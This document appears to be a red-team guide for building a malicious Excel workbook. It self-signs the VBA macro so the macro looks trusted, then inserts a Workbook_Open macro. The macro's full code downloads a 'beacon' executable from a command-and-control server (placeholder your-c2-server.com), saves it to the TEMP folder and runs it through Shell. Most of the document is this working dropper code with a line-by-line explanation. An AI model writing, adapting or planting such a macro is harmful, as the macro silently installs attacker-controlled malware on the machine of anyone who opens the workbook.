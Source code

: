 # Step 1: Digitally Sign a VBA Macro (Optional)

1. Create a Self-Signed Certificate
	If you don't already have a digital certificate, you can create a self-signed certificate using the Office tool SelfCert.exe.

	- Locate SelfCert.exe:
		For Office 2016 and later, you can find it in `C:\Program Files (x86)\Microsoft Office\root\OfficeXX (where XX is the version number, e.g., Office16)`
	
	- Run SelfCert.exe:
		Double-click `SelfCert.exe`
		Enter a name for your certificate (e.g., "My VBA Certificate").
		Click "OK".

		This creates a self-signed certificate that you can use to sign your macros.

2. Open the VBA Editor
	Open the Office application (Excel, Word, etc.) containing the macro.
	Press Alt + F11 to open the VBA editor.

3. Open the Digital Signature Dialog
	In the VBA editor, go to the Tools menu.
	Select Digital Signature.

4. Choose a Certificate
	In the Digital Signature dialog box, click Choose.
	Select your certificate from the list (e.g., "My VBA Certificate").
	Click OK.

5. Save Your Project
	Save the VBA project (macro).
	Close the VBA editor.

6. Verify the Signature
	Close and reopen the Office document containing the macro.
	When you open the document, the macro should now show as signed. You can check this by going back to the Tools > Digital Signature menu in the VBA editor.

#### Notes on Security

- Self-Signed Certificates: These are good for testing purposes but not for production use. In a production environment, obtain a certificate from a trusted CA.

- Certificate Authorities: Using a certificate from a trusted CA ensures that your macros are trusted by others and that the integrity of your code is maintained.

- Digital signatures ensure that the code has not been altered and confirm the identity of the author.

- Certificate Management: If using a self-signed certificate, you might need to install the certificate on the target machine's Trusted Root Certification Authorities store for it to be trusted.

# Step 2: Insert VBA Macro

How to Use

1. Open the VBA editor by pressing Alt + F11.

2. In the VBA editor, locate ThisWorkbook under Microsoft Excel Objects.

3. Double-click ThisWorkbook to open its code window.

4. Copy and paste the script into the ThisWorkbook code window.

5. Save and close the VBA editor.

6. Save your Excel workbook.

7. Close and reopen the workbook to trigger the Workbook_Open event, which will download the beacon and execute it.

# Step 3: VBA Scripts

```
Private Sub Workbook_Open()
	Dim fileURL As String
	Dim filePath As String

	' URL of the beacon to download from your C2 server
	fileURL = "[http://your-c2-server.com/path/to/beacon.exe](http://your-c2-server.com/path/to/beacon.exe)" ' Replace with your C2 server URL

	' Path to save the downloaded beacon in the temp directory
	filePath = Environ("TEMP") & "\beacon.exe"

	' Download the beacon
	If DownloadFile(fileURL, filePath) Then
		MsgBox "Beacon downloaded successfully!"
		
		' Execute the downloaded beacon
		Call Shell(filePath, vbNormalFocus)
	Else
		MsgBox "Beacon download failed!"
		Exit Sub
	End If
End Sub

Function DownloadFile(fileURL As String, filePath As String) As Boolean
	Dim HTTP As Object
	Dim adoStream As Object
	On Error GoTo errHandler

	' Create XMLHTTP object
	Set HTTP = CreateObject("MSXML2.XMLHTTP")
	' Open the HTTP request
	HTTP.Open "GET", fileURL, False
	' Send the HTTP request
	HTTP.Send

	' Create ADODB Stream object
	Set adoStream = CreateObject("ADODB.Stream")
	adoStream.Open
	adoStream.Type = 1 ' Binary
	' Write the HTTP response to the stream
	adoStream.Write HTTP.responseBody
	adoStream.Position = 0 ' Reset position to the start
	' Save the stream to a file
	adoStream.SaveToFile filePath, 2 ' Overwrite if file exists
	adoStream.Close

	DownloadFile = True
	Exit Function

errHandler:
	DownloadFile = False
End Function
```

#### Explanation

1. Workbook_Open Event:

```
Private Sub Workbook_Open()
	' Define file URL and path
	' Download the file
	' Execute the downloaded file
End Sub
```

This event triggers automatically when the workbook is opened. It defines the file URL and path, downloads the file, and then executes it.

2. DownloadFile Function:

```
Function DownloadFile(fileURL As String, filePath As String) As Boolean
	' Create and use XMLHTTP and ADODB.Stream to download and save the file
End Function
```

This function handles downloading the file from the specified URL and saving it to the specified file path.

3. Shell Function:

```
Call Shell(filePath, vbNormalFocus)
```

This line executes the downloaded file. vbNormalFocus ensures that the executed file runs with normal focus.